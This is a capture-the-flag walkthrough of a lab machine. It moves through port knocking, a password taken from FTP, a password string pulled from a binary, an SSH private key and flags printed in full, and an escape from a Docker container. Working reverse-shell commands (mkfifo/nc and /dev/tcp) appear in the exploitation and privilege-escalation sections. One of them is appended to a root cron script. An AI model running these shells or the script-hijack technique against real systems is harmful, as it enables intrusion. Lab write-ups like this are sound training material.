 ```yaml
---
sticker: emoji//1f63a
---
```


# PORT SCAN
---


| PORT | SERVICE     |
| :--- | :---------- |
| 21   | FTP         |
| 22   | SSH         |
| 4420 | NVM-EXPRESS |
| 8080 | HTTP        |




# RECONNAISSANCE
---

If we try interacting with the `4420` port, we need a password, for it, we can go to `ftp` and check this, on there, we will get:

```
sardinethecat
```

![](cybersecurity/images/Pasted%2520image%252020250612135655.png)
But, before all of this, we need to go to the website in which we will find this:

![](cybersecurity/images/Pasted%2520image%252020250612142859.png)

The FTP port will appear as filter if we don't do `port knocking`, Port knocking is a security technique that involves a client making a series of connection attempts to specific closed ports on a server before a legitimate connection can be established, we need to do port knocking on the specified ports:

```
knock IP 1111, 2222, 3333, 4444
```

Once we knock, the ftp port will be open and we can access to get the password.

Let's begin exploitation.

# EXPLOITATION
---

We got `rce`, let's send ourselves a reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f
```


![](cybersecurity/images/Pasted%2520image%252020250612135810.png)



We have a `runme` binary on `/home/catlover`:

```
# ls -la /home
total 12
drwxr-xr-x  3    0    0 4096 Apr  2  2021 .
drwxr-xr-x 10 1001 1001 4096 Apr  3  2021 ..
drwxr-xr-x  2    0    0 4096 Apr  3  2021 catlover
# ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
# ./home/catlover/runme
Please enter yout password: sardinethecat
Access Denied
```

It prompts for a password, which we don't have, we cannot get the binary on our home due to the shell being a little rusty, but, when we use cat we can see this little line: 


```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```

The password is:

```
rebecca
```

This binary generates a `id_rsa` for `catlover`  once the password is correct, we know this by analyzing the binary using `cat`:

```
cat /home/catlover/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmI1dCzfMF4y+TG3QcyaN3B7pLVMzPqQ1fSQ2J9jKzYxWArW5
IWnCNvY8gOZdOSWgDODCj8mOssL7SIIgkOuD1OzM0cMBSCCwYlaN9F8zmz6UJX+k
jSmQqh7eqtXuAvOkadRoFlyog2kZ1Gb72zebR75UCBzCKv1zODRx2zLgFyGu0k2u
xCa4zmBdm80X0gKbk5MTgM4/l8U3DFZgSg45v+2uM3aoqbhSNu/nXRNFyR/Wb10H
tzeTEJeqIrjbAwcOZzPhISo6fuUVNH0pLQOf/9B1ojI3/jhJ+zE6MB0m77iE07cr
lT5PuxlcjbItlEF9tjqudycnFRlGAKG6uU8/8wIDAQABAoIBAH1NyDo5p6tEUN8o
aErdRTKkNTWknHf8m27h+pW6TcKOXeu15o3ad8t7cHEUR0h0bkWFrGo8zbhpzcte
D2/Z85xGsWouufPL3fW4ULuEIziGK1utv7SvioMh/hXmyKymActny+NqUoQ2JSBB
QuhqgWJppE5RiO+U5ToqYccBv+1e2bO9P+agWe+3hpjWtiAUHEdorlJK9D+zpw8s
/+9CjpDzjXA45X2ikZ1AhWNLhPBnH3CpIgug8WIxY9fMbmU8BInA8M4LUvQq5A63
zvWWtuh5bTkj622QQc0Eq1bJ0bfUkQRD33sqRVUUBE9r+YvKxHAOrhkZHsvwWhK/
oylx3WECgYEAyFR+lUqnQs9BwrpS/A0SjbTToOPiCICzdjW9XPOxKy/+8Pvn7gLv
00j5NVv6c0zmHJRCG+wELOVSfRYv7z88V+mJ302Bhf6uuPd9Xu96d8Kr3+iMGoqp
tK7/3m4FjoiNCpZbQw9VHcZvkq1ET6qdzU+1I894YLVu258KeCVUqIMCgYEAwvHy
QTo6VdMOdoINzdcCCcrFCDcswYXxQ5SpI4qMpHniizoa3oQRHO5miPlAKNytw5PQ
zSKoIW47AObP2twzVAH7d+PWRzqAGZXW8gsF6Ls48LxSJGzz8V191PjbcGQO7Oro
Em8pQ+qCISxv3A8fKvG5E9xOspD0/3lsM/zGD9ECgYBOTgDAuFKS4dKRnCUt0qpK
68DBJfJHYo9DiJQBTlwVRoh/h+fLeChoTSDkQ5StFwTnbOg+Y83qAqVwsYiBGxWq
Q2YZ/ADB8KA5OrwtrKwRPe3S8uI4ybS2JKVtO1I+uY9v8P+xQcACiHs6OTH3dfiC
tUJXwhQKsUCo5gzAk874owKBgC/xvTjZjztIWwg+WBLFzFSIMAkjOLinrnyGdUqu
aoSRDWxcb/tF08efwkvxsRvbmki9c97fpSYDrDM+kOQsv9rrWeNUf4CpHJQuS9zf
ZSal1Q0v46vdt+kmqynTwnRTx2/xHf5apHV1mWd7PE+M0IeJR5Fg32H/UKH8ROZM
RpHhAoGAehljGmhge+i0EPtcok8zJe+qpcV2SkLRi7kJZ2LaR97QAmCCsH5SndzR
tDjVbkh5BX0cYtxDnfAF3ErDU15jP8+27pEO5xQNYExxf1y7kxB6Mh9JYJlq0aDt
O4fvFElowV6MXVEMY/04fdnSWavh0D+IkyGRcY5myFHyhWvmFcQ=
-----END RSA PRIVATE KEY-----
```

We got our private key and can now connect to ssh:

![](cybersecurity/images/Pasted%2520image%252020250612141930.png)
# PRIVILEGE ESCALATION
---

We are root but the root flag is nowhere to be found, this is because we are inside of a `Docker container`, we can know this with linpeas and `ls -la /`:

```
root@7546fa2336d6:/opt/clean# ls -la /
total 112
drwxr-xr-x   1 root root 4096 Jun 12 19:22 .
drwxr-xr-x   1 root root 4096 Jun 12 19:22 ..
-rw-------   1 root root  596 Jun 12 19:18 .bash_history
-rwxr-xr-x   1 root root    0 Mar 25  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Apr  9  2021 bin
drwxr-xr-x   3 root root 4096 Mar 24  2021 bitnami
drwxr-xr-x   2 root root 4096 Jan 30  2021 boot
-rw-r--r--   1 root root   62 Jun 12 19:22 clean.sh
drwxr-xr-x   5 root root  340 Jun 12 19:09 dev
drwxr-xr-x   1 root root 4096 Apr  9  2021 etc
drwxr-xr-x   2 root root 4096 Jan 30  2021 home
drwxr-xr-x   1 root root 4096 Sep 25  2017 lib
drwxr-xr-x   2 root root 4096 Feb 18  2021 lib64
drwxr-xr-x   2 root root 4096 Feb 18  2021 media
drwxr-xr-x   2 root root 4096 Feb 18  2021 mnt
drwxrwxr-x   1 root root 4096 Mar 25  2021 opt
drwxrwxr-x   2 root root 4096 Mar 24  2021 post-init.d
-rwxrwxr-x   1 root root  796 Mar 24  2021 post-init.sh
dr-xr-xr-x 131 root root    0 Jun 12 19:09 proc
drwx------   1 root root 4096 Mar 25  2021 root
drwxr-xr-x   4 root root 4096 Feb 18  2021 run
drwxr-xr-x   1 root root 4096 Apr  9  2021 sbin
drwxr-xr-x   2 root root 4096 Feb 18  2021 srv
dr-xr-xr-x  13 root root    0 Jun 12 19:23 sys
drwxrwxrwt   1 root root 4096 Jun 12 19:27 tmp
drwxrwxr-x   1 root root 4096 Mar 24  2021 usr
drwxr-xr-x   1 root root 4096 Feb 18  2021 var
```

As seen, `.dockerenv` is on here, we need a way to get into root
If we check the `/opt` directory we can find a `clean.sh` script that does this:

```
root@7546fa2336d6:/# cat /opt/clean/clean.sh
#!/bin/bash

rm -rf /tmp/*
```

We have write permissions so we can simply modify it to a reverse shell:

```
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/IP/1111 0>&1'" >> /opt/clean/clean.sh
```

This script runs each a couple minutes so wait and have the listener ready, we know this by taking a look at the `.bash_history` file:

```
root@7546fa2336d6:/opt/clean# cat /.bash_history
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh
nano /opt/clean/clean.sh
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh
cat /opt/clean/clean.sh
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
cat /var/log/dpkg.log
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
exit
exit
exit
ls
exit
```


Once the script runs again, we get a shell as root but in the real machine:

![](cybersecurity/images/Pasted%2520image%252020250612143517.png)

We can now get both flags:

```
root@7546fa2336d6:/opt/clean# cat /root/flag.txt
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9

root@cat-pictures:~# cat /root/root.txt
Congrats!!!
Here is your flag:

4a98e43d78bab283938a06f38d2ca3a3c53f0476
```

![](cybersecurity/images/Pasted%2520image%252020250612143705.png)

